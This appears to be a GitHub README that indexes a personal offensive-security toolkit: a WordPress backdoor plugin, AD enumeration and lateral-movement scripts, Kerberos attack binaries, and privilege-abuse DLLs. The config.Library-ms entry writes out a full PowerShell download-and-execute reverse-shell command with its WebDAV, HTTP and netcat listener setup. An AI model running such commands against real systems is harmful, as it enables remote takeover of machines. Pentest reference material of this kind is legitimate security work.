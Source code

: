 <pre>
offensive
---------
Tips and tricks etc. for offensive security and testing

anonsamba.conf
|
'-->  A config file to enable anonymous SMB share. Just replace interfaces with whatever IP net and interface you use and set
      log dir and path for the share, easiest at /home/sharedir (also "chmod -R ugo+w /home/sharedir" remember to disable after 
      use, in this share the users have all permissions). Replace /etc/smb.conf with this one (remember to copy the default 
      smb.conf and revert after use. To enable the new conf or reverted conf: "sudo systemctl restart smbd"
      
BackdoorPlug.php
|
'-->  A WordPres plugin containing reverse shell. 
      Prerequirements: you need access to the WP to upload and activate plugins.
      Just change the host/port to whatever your listener is running on and maybe adjust the shell accordingly too, then just zip 
      it, upload the zip as a plugin and activate the plugin to get connected with the WP-instance.

checklist
|
'-->  A very basic list of pentest steps.

config.Library-ms
|
'-->  A config library file to open a connection to the address defined in the simple location url, which for example serves 
      malicious Windows shortcut to execute some nasty powershell like:
        powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.12.34:9090/powercat.ps1'); powercat 
        -c 192.168.12.34 -p 4000 -e powershell"
      Here you should have the following: 
        - wsgidav (WebDAV: wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/username/webdav/) server running, 
          serving the Windows shortcut file, which runs the command above
        - a Python httpd (python -m http.server 9090) serving the powercat.ps1
        - a netcat listener (nc -nvlp 4000) or similar to catch the resulting reverse shell.

dorks.google
|
'-->  Some random Google dorks to leverage while enriching your case data

enumhelper.ps1
|
'-->  A helper script for AD enumeration and lateral movement. Built on-the-go so might contain a lot of logical fallacies and 
      missing lots of error checks.
      Check the help section before running: .\enumhelper.ps1 "help" for somewhat of instructions.
      Can do: 
        - LDAP queries
        - User/pass testing over LDAP-query
        - List all properties of LDAP response object
        - Get the value of a specific LDAP property
        - Get all SPNs and related objects
        - Check if any SPNs are tied to a (service)account
        - Get DC info: name, hostname, OS, OS version, IPv4 and IPv6
        - Get AD device info: name, hostname, OS, OS SP, OS version, IPv4 and IPv6
        - Get AD user/group info by SID (converting a SID to a name for example)
        - Create PsExec.exe or PsExec64.exe
        - SID lookup from AD
        - DCOM lateral movement leveraging MMC
          - Also the possibility of building a reverse-shell command and initiating it on the target
        - Remote connectiong over PowerShell
        - Remote commands over WMI, WINRS, PsExec or PsExec64:
          - Also the possibility of building a reverse-shell command and initiating it on the target

Get-Shortcut.ps1
|
'-->  Get shortcut (.lnk) info via PowerShell. Just import-module .\Get-Shortcut.ps1 and you can go: Get-Shortcut c:\path\to\link.lnk
      
kerbrute_linux_amd64
|
'-->  An awesome tool for Kerberos bruting from https://github.com/ropnop/kerbrute, here's a pre-built
      64bit Linux binary
      
KrbRelayUp.exe
|
'-->  Kerberos Relay attack binary. 
      Lost my mind trying to get this to build so then just ended up getting a prebuilt one from
      https://kb.offsec.nl/tools/techniques/krbrelayup/, thanks! The source is available at:
      https://github.com/Dec0ne/KrbRelayUp
      
nix-shell-tricks
|
'-->  Common tips and tricks etc. to use in Linux shell when being offensive or otherwise enumerating

php-trickery
|
'-->  Some PHP-tricks for offensive security

reverse_shell.aspx
|
'-->  Not my creation, credit goes to INSOMNIA SECURITY :: InsomniaShell.aspx, 
      brett.moore@insomniasec.com ::  www.insomniasec.com

SeBackupPrivilegeCmdLets.dll
SeBackupPrivilegeUtils.dll
|
'--> Precompiled dlls from https://github.com/giuliano108/SeBackupPrivilege for leveraging 
     SeBackupPrivileged AD account. These are prebuilt x64, if you need other then you
     need to build them yourself from giuliano's source. Otherwise:
            Import-Module .\SeBackupPrivilegeUtils.dll
            Import-Module .\SeBackupPrivilegeCmdLets.dll
            Set-SeBackupPrivilege
            Copy-FileSeBackupPrivilege .\un_accessible_document.pdf c:\temp\now_accessible.pdf -Overwrite

sqli-tips
|
'-->  Tips for SQL injections

winbin.sh
|
'-->  Whip up custom executable/dll on the fly. So far only supports creating a x64 executable/dll for 
      adding a defined user with a defined password to the Administrators group or changing an existing user's password. 
      For example if you need to replace a bin which you have full control over to gain further foothold or to leverage a 
      missing DLL etc.

windows-shell-tricks-and-ad-tips
|
'-->  Common tips and tricks etc. to use with PowerShell / cmd when being offensive or otherwise enumerating and getting to know AD
</pre>
